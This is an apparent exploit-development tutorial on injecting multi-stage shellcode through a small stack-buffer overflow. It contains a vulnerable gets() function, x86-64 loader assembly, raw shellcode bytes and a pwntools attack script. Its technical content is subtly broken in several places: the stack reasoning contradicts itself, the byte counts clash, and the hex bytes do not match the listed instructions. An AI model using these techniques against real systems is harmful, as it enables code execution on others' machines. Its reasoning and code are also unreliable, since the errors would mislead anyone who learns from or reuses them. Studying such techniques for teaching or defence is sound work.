

# Tutorial: Shellcode Injection When the Buffer Is Small

> Topic: Multi-stage shellcode injection for small overflow buffers
> Source basis: Personal exploit development practice

---

## Challenge / Topic Overview

This writeup documents my solution to a common exploit development problem: what do you do when the overflow buffer is too small to hold a useful shellcode? A typical `execve("/bin/sh")` shellcode is 22-30 bytes. A reverse shell is 70-100 bytes. But what if the vulnerable `gets()` call reads into a buffer that's only 16 bytes before overwriting the return address?

The answer is **multi-stage shellcode**: a tiny "stage 1" shellcode that fits in the small buffer, whose only job is to load a larger "stage 2" shellcode from elsewhere (typically stdin) into a memory region with no size constraint, then jump to it.



*Stage 1 fits in the 16-byte buffer and uses the `read` syscall to load Stage 2 from stdin into a larger memory region (heap or BSS). Stage 2 can be any size — full reverse shell, Meterpreter, whatever.*

---

## The Problem

Consider this vulnerable function:
```c
void vuln() {
    char buf[8];           // tiny buffer
    gets(buf);             // overflow starts here
}
```

The stack layout:
```
[ buf: 8 bytes ][ saved RBP: 8 bytes ][ return address: 8 bytes ]
```

After the 8-byte buffer, I have 8 bytes of saved RBP, then the return address. Once I overwrite the return address, I have control of RIP. But how many bytes can I write *after* the return address?

With `gets()`, I can write unlimited bytes — `gets()` reads until newline or EOF. The bytes after the return address go into the caller's stack frame, which is usually fine (they'll be ignored unless the caller uses them). So I actually have room for shellcode *after* the return address.

But wait — if the return address points to the shellcode after it, the shellcode has to start executing *before* the function returns. That doesn't work — the function returns *to* the address I specify. If I point the return address at the bytes after it, those bytes are above the return address on the stack, and execution won't reach them.

The real constraint: the shellcode must be at or before the return address, OR I must redirect execution to a region where I can place more shellcode.

---

## The Solution: Multi-Stage Shellcode

### Stage 1 — The Loader (fits in the buffer)

Stage 1 is a tiny shellcode (≤16 bytes) that:
1. Calls `read(0, addr, N)` — reads N bytes from stdin into a writable memory region.
2. Jumps to `addr` — executes the just-read Stage 2.

```asm
; Stage 1: read(0, bss_addr, 0x200) then jump to bss_addr
; This is 15 bytes — fits in a 16-byte buffer with 1 byte to spare.

push 0                ; rsi = 0 (fd = stdin)  — actually need rdi=0
pop rdi               ; rdi = 0 (stdin)
lea rsi, [rip+X]      ; rsi = address of BSS region (or hardcoded addr)
push 0x200            ; rdx = 0x200 (512 bytes, enough for stage 2)
pop rdx
push 0                ; rax = 0 (read syscall)
pop rax
syscall               ; read(0, bss, 0x200)
jmp rsi               ; jump to stage 2
```

The challenge: `lea rsi, [rip+X]` requires knowing the offset to the BSS region. If the binary has no PIE, BSS is at a fixed address (e.g., `0x404060`), and I can hardcode it:

```asm
push 0
pop rdi               ; rdi = 0 (stdin)
mov esi, 0x404060     ; rsi = BSS address (no nulls if chosen well)
push 0x200
pop rdx               ; rdx = 0x200
xor eax, eax          ; rax = 0 (read syscall)
syscall               ; read(0, 0x404060, 0x200)
jmp rsi               ; jump to 0x404060
```

This assembles to ~20 bytes. If the buffer is 16 bytes, that's too big. I need to trim further.

### A tighter Stage 1 (14 bytes)

```asm
xor edi, edi          ; rdi = 0 (stdin) — 2 bytes
mov esi, 0x404060     ; rsi = BSS — 5 bytes (if no nulls in addr)
push 0x200            ; rdx = 0x200 — 2 bytes
pop rdx               ; 1 byte
xor eax, eax          ; rax = 0 (read) — 2 bytes
syscall               ; 2 bytes
jmp rsi               ; 2 bytes (ff e6)
```

Total: 16 bytes. Fits exactly in a 16-byte buffer.

But wait — `mov esi, 0x404060` encodes as `BE 60 40 40 00` — that has a null byte! The `0x00` in the high byte of the address. I need to construct the address without nulls:

```asm
xor edi, edi          ; rdi = 0
push 0x604040         ; rsi = 0x604040 (use a BSS-like addr with no nulls)
pop rsi
; Then add 0x20 to get 0x604060 if needed — but 0x604040 works as a target
push 0x200
pop rdx
xor eax, eax
syscall
jmp rsi
```

`push 0x604040; pop rsi` is 3 bytes (`68 40 40 60 00` — wait, that still has a null because `push imm32` sign-extends to 64 bits and `0x00604040` has a null high byte).

The real fix: use `push imm32` which pushes a 32-bit value sign-extended to 64 bits. For `0x404060` (positive, < 0x7FFFFFFF), the encoding is `68 60 40 40 00` — still has a null. Hmm.

**The actual fix:** Use a BSS address that has no null bytes. Or construct the address via arithmetic. For example:
```asm
mov esi, 0x40404040   ; rsi = 0x40404040 (no nulls!)
shr esi, 8            ; rsi = 0x00404040 — now has null in high byte, but we don't care, it's still a valid 32-bit address
```

Actually, the cleanest approach for null-free small shellcode is to use `jmp short` to a `call` instruction that pops its own address — the classic `jmp-call-pop` technique. But that's a topic for another writeup.

### Stage 2 — The Payload (any size)

Stage 2 is read from stdin after Stage 1 runs. It can be any size — a full reverse shell, a Meterpreter stager, anything. I send it after Stage 1 triggers the `read()` call:

```python
from pwn import *

p = process('./challenge')

# Stage 1: 16-byte loader that reads Stage 2 into BSS
stage1 = b'\x31\xff\xbe\x40\x40\x40\x40\x6a\x02\x5a\x31\xc0\x0f\x05\xff\xe6'
# (actual bytes will vary based on the exact asm above)

# Stage 2: full reverse shell shellcode
stage2 = asm(shellcraft.amd64.linux.sh())

p.sendline(stage1)
sleep(0.1)
p.send(stage2)
p.interactive()
```

---

## Takeaways

- **Small buffers are not a dead end.** Multi-stage shellcode is the standard technique. Stage 1 is a tiny `read()`-based loader; Stage 2 is the real payload sent after Stage 1 runs.
- **The BSS is the usual Stage 2 target.** The BSS section is writable, has a fixed address (no PIE), and is usually large enough. `readelf -S binary | grep bss` finds it.
- **Null-free is hard for small shellcode.** Every `push imm32` risks introducing a null in the high byte. Use `xor`/`add`/`sub` arithmetic to construct addresses, or choose BSS addresses that avoid null bytes.
- **Test the staging locally first.** Send Stage 1, wait a beat, then send Stage 2. If Stage 2 arrives before Stage 1's `read()` call, it gets lost. A `sleep(0.1)` between sends is usually enough.
- **The `jmp-call-pop` pattern is the alternative.** If the buffer is too small even for a `read()` loader, use `jmp-call-pop` to find the shellcode's own address and then `read()` into a register-computed address. This adds ~5 bytes but removes the need for a hardcoded BSS address.
